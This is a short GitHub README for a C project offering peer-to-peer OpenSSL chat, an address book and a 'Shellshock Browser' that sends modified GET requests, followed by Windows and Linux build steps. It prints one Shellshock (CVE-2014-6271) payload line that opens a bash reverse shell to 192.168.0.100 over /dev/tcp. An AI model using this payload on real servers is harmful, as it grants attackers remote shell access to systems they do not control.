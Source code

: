 # peer-chat
* Server and Client OpenSSL Peer Socket Chat (Windows/Linux)

    most Bug free
    
* Addressbook functionality (Windows/Linux)

    Entry has Bugs
    
* http/https Shellshock Browser (Windows/Linux)

    most Bug free
    
    A Webbrowser that has a modyfied GET Request. It supports HTTP and HTTPS Connections.
    
    **[A useful Link](http://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/#gref)**
    
    The Shellshock it self: "env x='() { :;}; ' $(command -v bash) -i >& /dev/tcp/192.168.0.100/8080 0>&1"


# building

* On Windows: use DevC++ (latest) WIN32/WIN64 Compiler

with linker options:

-mwindows
-lssl
-lcrypto
-leay32 
-lwsock32
-lws2_32 
-lpthread
-s

Code profiling -std=ISO C99

* On Linux:

# make
# sudo make install
# sudo make uninstall
# make clean
# make version

